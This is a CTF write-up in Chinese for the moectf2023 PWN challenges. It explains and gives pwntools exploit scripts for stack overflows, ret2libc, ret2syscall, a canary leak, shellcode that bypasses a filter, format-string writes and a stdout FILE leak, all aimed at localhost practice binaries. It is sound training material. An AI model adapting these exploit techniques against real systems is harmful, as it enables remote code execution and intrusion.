# moectf2023 PWN部分

作者：Chick

## test_nc

连接即可。


## baby_calculator

接送参数判断两个数的和是否等于第三个即可。

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 45201)

for i in range(100):
    sh.recvuntil(b'The first:')
    left = int(sh.recvuntil(b'\n'))
    sh.recvuntil(b'The second:')
    right = int(sh.recvuntil(b'\n'))
    sh.recvuntil(b'=')
    res = int(sh.recvuntil(b'\n'))
    if left + right == res:
        sh.sendline(b'BlackBird')
    else:
        sh.sendline(b'WingS')
sh.interactive()
```


## fd

打开IDA可以看到


程序将文件描述符fd的信息复制到了new_fd，而new_fd的值为`(4 * fd) | 0x29a`，又因为open分配的从3开始，所以fd一开始为3，从而new_fd就是670，发送670即可拿到flag。


## int_overflow

输入大于int最大值的时候会从4字节处截断。利用这个特性可以构造输入


发送8589820078即可


## ret2text_32

通过IDA可以看到程序明显存在栈溢出漏洞，覆盖返回地址到b4ckdoor中的system函数，IDA中的string窗口也可以看到binsh字符串。通过栈传递参数。

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 34721)

system_addr = 0x08049070
binsh_addr = 0x0804C02C

sh.sendline(b'1024')
sleep(2)
pad = b'a' * 0x5c + p32(system_addr) + p32(0x1) + p32(binsh_addr)
sh.sendline(pad)

sh.interactive()
```


## ret2text_64

与32位不同，64位通过寄存器传参，第一个参数在rdi中。通过ROPgadget可以查找pop_rdi_ret的地址


```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 34721)

system_addr = 0x4012B7
binsh_addr = 0x404050
pop_rdi = 0x4011be

sh.sendline(b'1024')
sleep(2)
pad = b'a' * 0x58 + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
sh.sendline(pad)

sh.interactive()
```


## uninitialized_key

IDA打开文件：


可以看到先调用了get_name，然后调用get_key。


两个函数差不多，根据栈的运行机制，age和key都分配在栈上，函数结束释放内存时只会将rsp的值加回来，不会改变栈上的值，故只用在第一次get_name时输入114514，第二次输入a（非法数字）时，key的值就是栈上原来age的值，即114514。exp：

```python
from pwn import *

context(os="linux", arch="amd64") 
parent_path = "/home/user/tmp/"
sh = remote("localhost", 36865)

sh.sendline(b'114514')
sleep(2)
sh.sendline(b'a')
sh.interactive()
```


## uninitialized_key_plus

用IDA打开文件，发现get_name函数与之前不一样，现在是输入一个字符串：




和之前差不多，只不过现在是要把name的最后4个字节改成114514，exp如下：

```python
from pwn import *

context(os="linux", arch="amd64") 
parent_path = "/home/user/tmp/"
sh = remote("localhost", 36865)

sh.sendline(b'a' * 20 + p32(114514))
sleep(2)
sh.sendline(b'a')
sh.interactive()
```


## ret2libc

该程序中没有system函数和binsh字符串，需要利用libc的延迟绑定机制。

一个确定的libc版本中各个函数的偏移量是固定的，而libc函数的真实地址的后12位是不变的，利用这一个特点可以确定libc版本（每个libc版本的函数偏移量可能是不同的）。

首先我们打印puts的真实地址，并返回main函数再次调用，拿到的puts的真实地址的后12位是ed0，在libc database searcher中搜索可以看到：




根据分别与puts的偏移量确定了system和binsh的地址，最后调用system函数，exp:

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 34315)
pwn = ELF(parent_path + "pwn")

pop_rdi = 0x40117e
puts_plt = pwn.plt['puts']
puts_got = pwn.got['puts']
main = pwn.symbols['main']

# 获得puts的真实地址，并将函数返回到main
pad1 = b'a' * 0x58 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
sh.sendline(pad1)
sleep(3)
# 解包 64位下的真实地址以0x7f开头(而[-6:]指从后取6位，因为一般来说真实地址可能不会有8位，如果取8位可能造成数据错误)
puts_addr = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

# libc中查找偏移量
system_addr = puts_addr - 0x30170
binsh_addr = puts_addr + 0x1577c8
print(hex(puts_addr))
print(hex(system_addr))
print(hex(binsh_addr))

# 注意在调用system函数的时候会检查栈对齐，若栈地址不是16字节对齐会引发段错误。所以我们这里可以用一个ret(pop rdi + 1)让rsp往下顺延0x8
pad2 = b'a' * 0x58 + p64(pop_rdi + 1) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)

sh.sendline(pad2)
sh.interactive()
```


## ret2syscall

这道题题目已经告诉我们要进行系统调用了。要调用execve("/bin/sh", null, null)，我们需要将rax设为0x3b（64位execve的系统调用号），rdi设为binsh的地址，rsi和rdx设为0，最后接syscall。


exp:

```python
from pwn import *

context(os="linux", arch="amd64") 
parent_path = "/home/user/tmp/"
sh = remote("localhost", 36865)

binsh_addr = 0x404040
pop_rax = 0x40117e
pop_rdi = 0x401180
pop_rsi_rdx = 0x401182
syscall = 0x401185

pad = b'a' * 0x48 + p64(pop_rax) + p64(0x3b) + p64(pop_rdi) + p64(binsh_addr) + p64(pop_rsi_rdx) + p64(0) + p64(0) + p64(syscall)
sh.sendline(pad)
sh.interactive()
```


## PIE_enabled

从题目中可以看出程序开启了PIE保护，即程序加载的基址会变化，但是程序内不同函数的相对地址不变。打开IDA可以看到程序输出了vuln的地址，拿到vuln的地址后通过vuln函数的加上偏移量可以确定其它函数或变量的地址。


```python
# 确定偏移量
vuln = 0x1245
system_addr = 0x11d8
binsh_addr = 0x4010
pop_rdi = 0x1323
print(hex(system_addr - vuln)) # -0x6d
print(hex(binsh_addr - vuln))  # 0x2dcb
print(hex(pop_rdi - vuln))     # 0xde
```

exp:

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 38777)

sh.recvuntil(b'0x')
vuln_addr = int(sh.recvuntil(b'\n').strip(), 16)
system_addr = vuln_addr - 0x6d
binsh_addr = vuln_addr + 0x2dcb
pop_rdi = vuln_addr + 0xde
pad = b'a' * 0x58 + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
sh.sendline(pad)
sh.interactive()
```


## little_canary

金丝雀数以b'\x00'结束，64位中为8字节。

IDA中的搜索标志：查找___stack_chk_fail函数，例如：


显然var_8，即与rbp偏移量为8的地方为Canary。利用Canary以b'\x00'结束的特点，读取Canary。

先确定Canary与buf的距离padding，然后发送padding + 1个字符的数据，可以正好覆盖Canary的低位b'\x00'，不然字符串会被截断。注意使用sh.sendline(padding * b'a')时实际上发送的最后带个\n，刚好满足条件，最后接收时将结果减去一个0xa（\n的十六进制ascii码）就拿到了Canary。

然后构造第二个payload = padding * b'a' + Canary + 8 * b'a' + 返回地址。

搜索IDA没有发现system和binsh字符串，则要通过libc获取地址。

exp:

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 33991)
pwn = ELF(parent_path + "pwn")

pop_rdi = 0x401343
main = pwn.symbols['main']
puts_plt = pwn.plt['puts']
puts_got = pwn.got['puts']
pad = b'a' * 0x48  # padding = 0x48
sh.sendline(pad)

# 获取canary
sleep(2)
sh.recvuntil(b'a' * 0x48)
canary = u64(sh.recv(8)) - 0xa # 减去\n的ascii 0xa
print(hex(canary))

# 下面的用到了libc，返回到main函数重新执行
pad = b'a' * 0x48 + p64(canary) + p64(0x1) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
sh.recv()
sh.sendline(pad)
puts_addr = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(puts_addr))
system_addr = puts_addr - 0x32190  # 查询libc
binsh_addr = puts_addr + 0x13019d
sleep(2)
sh.sendline(b'0') # 跳过第一个输入
sleep(2)

# 注意栈对齐
pad = b'a' * 0x48 + p64(canary) + p64(0x1) + p64(pop_rdi + 1) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
sh.sendline(pad)
sh.interactive()
```


## rePWNse

checksec查看保护机制：



用IDA打开文件，进到main可以看到：


显然程序存在栈溢出，跟进到makebinsh函数：




可以看到只有当输入的7个整数满足特定的条件的时候才可以拼接成"/bin/sh"


并在最后把字符串的地址打印。用python的z3库将满足这些条件的数算出来：

```python
from z3 import *

def solve():
    solver = Solver()
    input = [Int(i) for i in range(7)]
    condi = [input[3] * input[1] == 10 * input[4] + input[5],
             input[5] == input[6] + 1,
             input[1] == input[3],
             input[0] == input[2],
             input[3] - input[4] == input[0],
             input[1] == 9,
             input[6] == 0]
    solver.add(condi)
    if solver.check() == sat:
        model = solver.model()
        res = [model[input[i]] for i in range(7)]
        print(res) # [1, 9, 1, 9, 8, 1, 0]
    else:
        print("NO!")


if __name__ == '__main__':
    solve()
```


解出这7个数后就拿到了"/bin/sh"的地址。回到IDA中可以看到左边的函数里有execve函数，交叉引用可以看到是action函数调用的，并且已经将execve的后两个参数设为了0。那么就直接通过main函数的栈溢出将函数的返回地址设为action，第一个参数设为binsh的地址。




exp：

```python
from pwn import *

context(os="linux", arch="amd64") 
sh = remote("localhost", 36865)
parent_path = "/home/user/tmp/"

pop_rdi = 0x40168e
action_addr = 0x401296
sh.sendline(b'1 9 1 9 8 1 0')
sleep(2)
sh.recvuntil(b'0x')
binsh_addr = int(sh.recvuntil(b'\n').strip(), 16)  # 因为地址的数字不确定，所以这样接收
# print(sh.recv())
print(hex(binsh_addr))
pad = b'a' * 0x48 + p64(pop_rdi) + p64(binsh_addr) + p64(action_addr) # 调用action
sh.sendline(pad)
sh.interactive()
```


## shellcode_level0

首先程序没有打开NX保护，可以执行栈上的代码。用IDA打开可以看到，程序将buf读入后直接跳转到了buf的首地址执行：




我们只要构造shellcode发送即可。

```python
from pwn import *

context(os="linux", arch="amd64") 
sh = remote("localhost", 36865)
parent_path = "/home/user/tmp/"

sh.sendline(asm(shellcraft.sh()))
sh.interactive()
```


## shellcode_level1

用checksec可以看到NX开了，不能栈上执行


打开IDA可以看到


paper4和paper5是用mmap分配的，而其他的3个paper都是分配在不可执行的内存空间上。往下翻可以看到


在完成buf的复制后程序会修改内存页的权限，并跳转到对应的地址执行。从上我们可以看到只有paper4在最后将权限修改为了可读可写可执行的权限，所以我们应该选择paper4构造shellcode。

```python
from pwn import *

context(os="linux", arch="amd64") 
sh = remote("localhost", 36865)
parent_path = "/home/user/tmp/"

sh.sendline(b'4')
sleep(2)
sh.sendline(asm(shellcraft.sh()))
sh.interactive()
```


## shellcode_level2

用IDA打开可以看到程序中间进行了判断，当buf的第一个字节不为0时会进行memset。所以我们在构造的shellcode前加上一个b'\x00'字节即可。




exp:

```python
from pwn import *

context(os="linux", arch="amd64") 
sh = remote("localhost", 36865)
parent_path = "/home/user/tmp/"

sh.sendline(b'\x00' + asm(shellcraft.sh()))
sh.interactive()
```


## shellcode_level3

和上次一样，只不过这次只有5个字节可以利用。仔细观察IDA发现system函数，交叉引用发现givemeshell函数可以直接拿到shell。所以我们可以构造call的机器码，刚好5个字节。call的最前面是E8，后面跟4字节的补码偏移量。目标地址是0x4011de，code的地址是0x404089，相减后再减去当前的5字节，取其补码0xffffd150。exp:

```python
from pwn import *

context(os="linux", arch="amd64") 
sh = remote("localhost", 36865)
parent_path = "/home/user/tmp/"

sh.sendline(b'\xe8' + p32(0xffffd150))
sh.interactive()
```


## changeable_shellcode

用IDA打开文件可以看到main函数将输入的buf用filter函数过滤，然后将buf复制到内存0x114514000中，最后跳转到该地址执行：



跟进到filter函数：


可以看到程序将b'\x0f\x05'过滤，也就是对应的syscall。我们可以将构造的shellcode的最后一个字节b'\x05'先替换成其它的任意字节绕过检测，在shellcode的前面补上一段汇编代码，将shellcode的最后一个字节给替换回来，这样运行时就会将shellcode复原。exp：

```python
from pwn import *

context(os="linux", arch="amd64") 
sh = remote("localhost", 33997)
parent_path = "/home/user/tmp/"

# 将shellcode的最后一个\x05替换成\x00
shellcode = b'\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x00'
# 将\x05写入shellcode的最后一个字节
pad = asm("mov al, 0x05") + asm("mov [0x114514021], al")
pad += shellcode
# print(len(pad))
sh.sendline(pad)
sh.interactive()
```


## format_level0

用IDA打开，可以发现printf(name)存在格式化字符串漏洞。


首先确定偏移量（当前字符串是printf的第几个参数）。

我们可以构造\<tag\>%p*n的格式，也可以动态调试：




图中的位置是第27个参数。也可以用工具FmyStr：

```python
# get offset
def exec_fmt(pad):
    p = remote("localhost", 44129)
    p.sendline(pad)
    return p.recvall()
fmt = FmtStr(exec_fmt)
offset = fmt.offset
print(offset) # 27
```

通过IDA观察main的栈的结构可以发现flag在name往上0x40（相对name的偏移量为20）的位置，是printf的第7个参数。



exp:

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 

offset = 7 # flag的偏移
flag = ""
for i in range(0, 20):
    sh = remote("localhost", 44129)
    sh.sendline(b'%' + str(i + offset).encode() + b'$p') # 把flag以16进制接收
    try:
        sh.recvuntil(b'0x')
    except EOFError as e:
        break
    d = int(sh.recv()[:8], 16)
    for j in range(4):
        flag += chr(d & 0xff) # 处理flag字符
        d >>= 8
print(flag)
# 应该有更好的接收方式
```

## format_level1

checksec打开如下 :


可以看到没有开启PIE。在IDA中打开进到talk函数中可以看到存在格式化字符串漏洞：


通过动态调试可以找到偏移量为7。为了打败龙我们可以将龙的血量和攻击都修改为0。找到龙的地址和结构体的组成：


接下来我们就要修改龙的血量和攻击。将龙的血量和攻击都修改为0可以在payload的前面写b'%8$n'，刚好4个字符，然后让偏移量加1，指向这4个字符的后面一个位置，后面接要修改的地址。exp:

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 35649)

dragon_addr = 0x804c00c

sh.sendline(b'3')
sleep(2)
pad = b'%8$n' + p32(dragon_addr)
sh.sendline(pad)
sleep(2)

sh.sendline(b'3')
sleep(2)
pad = b'%8$n' + p32(dragon_addr + 4)
sh.sendline(pad)

sh.interactive()
```


## format_level2

在上一题的基础上，这道题打败龙后不会调用success函数。在这道题中没有栈溢出漏洞，所以我们只能将函数的返回地址修改到success函数的地址，这样函数返回后就会执行success函数。

首先可以确定偏移量还是7。用pwndbg在printf下断点：



可以看到buf在0xffffd01c的位置，而返回地址在buf + 0x20的位置，并且利用printf的第二个参数（格式化字符串的第一个参数）是buf的地址可以泄露栈的内存，将泄露的内存加上0x20即可得到返回地址的地址。最后修改返回地址为success函数即可。

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 35684)

sh.sendline(b'3')
sleep(2)
sh.sendline(b'%p') #泄露栈地址
sleep(2)
sh.recvuntil(b'0x')
pointer = int(sh.recv()[:8],  16) + 0x20 # 返回地址与buf的偏移量为0x20
print(hex(pointer)) # pointer指向栈上的返回地址
# 7是offset，0x9317是要返回的地址的后2个字节
# 当返回地址与原地址只有最后2字节不同最好，相差2字节以上时运行时间过长

sh.sendline(b'3')
sleep(2)
# 0x9317-4是因为前面有4个字节的地址
pad = p32(pointer) + b'%' + str(0x9317 - 4).encode() +  b'c%7$hn'
sh.sendline(pad)
sh.interactive()
```


## format_level3

与上一道题不同，buf在bss段上的时候就不能用偏移量来构造了。这时应该用栈作为跳板，修改返回地址。我们可以将当前函数的返回地址(0xffffcfcc处)修改为后success函数的地址。

利用动态调试可以寻找合适的跳板。这里我选用了ebp指针，因为其指向的链比较长。ebp指针指向了一个栈内存，而指向的栈0xffffcfe8又指向了栈内存0xffffcff8。ebp的偏移量为6，0xffffcff8的偏移量为14。


这里我将整体分为了3步：

1. step1:

获取偏移量为14处的内存，即ebp的值指向的地址。（内存泄漏，具体获取那一块不要紧，只要获取的地址在栈上，最终都可以通过获取的值与返回地址的偏移量计算出栈上返回地址的地址），0xffffcff8与0xffffcfcc相差0x2c，所以只需将获得的地址减去0x2c即得到返回地址的地址。

2. step2：

将偏移量为14处的内存的值重写为指向返回地址(即0xffffcfcc)

3. step3:

通过向偏移为14处的内存指向的地址（即返回地址）写入后门的地址即可完成修改。

exp如下：

```python
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 35409)

# step 1
sh.sendline(b'3')
sleep(2)
sh.sendline(b'%14$p')
sleep(2)
sh.recvuntil(b'0x')
stack_addr = int(sh.recv()[:8], 16)
print(hex(stack_addr))

# step 2
sh.sendline(b'3')
sleep(2)
ret_addr = stack_addr - 0x2c
pad = b'%' + str(ret_addr & 0xffff).encode() + b'c%6$hn' # 按双字节写入
sh.sendline(pad)
sleep(2)

# step 3
sh.sendline(b'3')
sleep(2)
pad = b'%' + str(0x9330).encode() + b'c%14$hn'
sh.sendline(pad)
sh.interactive()
```


## feedback

checksec查看，发现所有的保护都打开了。


使用IDA打开，发现程序先调用了read_flag，将flag读到了&puts+186972的地方，因为&puts是char**类型，所以实际上应该是&puts+186972\*8（&puts+0x16d2e0）。（此处的puts地址是libc上的地址）




进入主程序，其它的地方都保护得非常好，没有溢出什么的，除了index的索引越界。而feed_back_list又在bss段上，所以可以通过修改stdout中的缓冲区指针泄露libc地址。




到这总体思路就很清晰了。

首先先通过stdout泄露libc地址，方法为将stdout的_IO_write_base的最低为修改为\x00，通过gdb查看leak的具体地址。


如上，leak出来的地址实际上就是\_IO_2_1_stdin\_的地址，所以将leak的地址减去\_IO_2_1_stdin\_的偏移就是libc_base。用同样的方法可以泄露flag。


exp

```python
from pwn import *
from ctypes import *

CONNECTION = 'REMOTE'

context(os="linux", arch="amd64") 
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
parent_path = "/home/chick/桌面/temp/"
if CONNECTION == 'LOCAL':
    sh = process([parent_path + 'libc/ld-2.31.so',parent_path + 'feedback'], env = {'LD_PRELOAD' : parent_path + 'libc/libc-2.31.so'})
elif CONNECTION == 'REMOTE':
    sh = remote('localhost', 42679)
else:
    sh = null
pwn = ELF(parent_path + "feedback")
libc = ELF(parent_path + "libc/libc-2.31.so")

uu64 = lambda data: u64(data.ljust(8, b'\x00'))
l64 = lambda: uu64(sh.recvuntil(b'\x7f')[-6:])
DEBUG = lambda: gdb.attach(sh)

pad = p64(0xfbad1800) + p64(0) * 3 + b'\x00' # leak libc地址
sh.sendafter(b'write?', b'-8') # stdout在索引为-8的位置
sh.sendlineafter(b'feedback.', pad)

stdin_addr = l64()
success(f'leak addr = {hex(stdin_addr)}')

libc_base = stdin_addr - libc.symbols['_IO_2_1_stdin_']
success(f'libc_base = {hex(libc_base)}')

flag_addr = libc_base + libc.symbols['puts'] + 0x16d2e0
success(f'flag_addr = {hex(flag_addr)}')

pad = p64(0xfbad1800) + p64(0) * 3 + p64(flag_addr) + p64(flag_addr + 0x50) # 将缓冲区设置为flag_addr到flag_addr+0x50
sh.sendafter(b'write?', b'-8')
sh.sendlineafter(b'feedback.', pad)

# DEBUG()

sh.interactive()
```

